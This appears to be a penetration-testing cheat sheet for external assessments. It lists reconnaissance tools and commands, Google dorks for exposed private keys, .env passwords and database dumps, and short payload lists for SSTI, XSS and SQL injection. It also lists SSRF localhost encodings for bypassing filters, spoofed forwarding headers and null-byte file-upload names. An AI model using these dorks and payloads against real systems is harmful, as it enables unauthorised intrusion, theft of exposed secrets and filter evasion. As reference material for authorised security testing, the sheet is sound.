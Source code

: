 # External Penetration Testing

## **Tools**

### Automated

- [Sn1per](https://github.com/1N3/Sn1per)
- [AutoRecon](https://github.com/Tib3rius/AutoRecon)
- [Legion](https://github.com/carlospolop/legion)

### Manual

- [Arsenal](https://github.com/Orange-Cyberdefense/arsenal)

--- 

## **Passive discovery**

get js script

```bash
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

dork on domain

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

get url in file

```bash
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

---

## **Active discovery**

### Services

```bash
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head
```

---

### Subdomains

```bash
amass enum -ip -brute -active -d <domain> 
amass viz -maltego -d <domain> -o mydir
gobuster dns -d <domain> -w ~/wordlists/subdomains.txt -i
```

check if subdomain exist

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

---

### Vhosts

```bash
nmap --script http-vhosts -p 80,8080,443 <target>
gobuster vhost -u <url> -w common-vhosts.txt
Burp Intruder (Host header)
```

---

### Urls

```bash
./dirsearch.py -u <target> -e php,html,js,xml -x 500,403
wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ
gobuster dir -u https://buffered.io -w ~/wordlists/shortlist.txt -l -v
Burp Pro (Content Discovery)
```

Found asset and params

```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

link finder

```bash
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

URL finder

```bash
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

Dir Listing dump

```bash
wget -r --no-parent target.com/dir
```

---

## **Injections**

### SSTI

```bash
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

---

### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

---

### SQLI

For http://site.com/?q=INJECT_HERE

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

---

## **Bypass WAF**


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

---


## **Burp Extenders**

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)
`Autorize`|[find privileges escalations by replaying admin requests as a simple user](https://portswigger.net/bappstore/f9bbac8c4acf4aefa4d7dc92a991af2f)
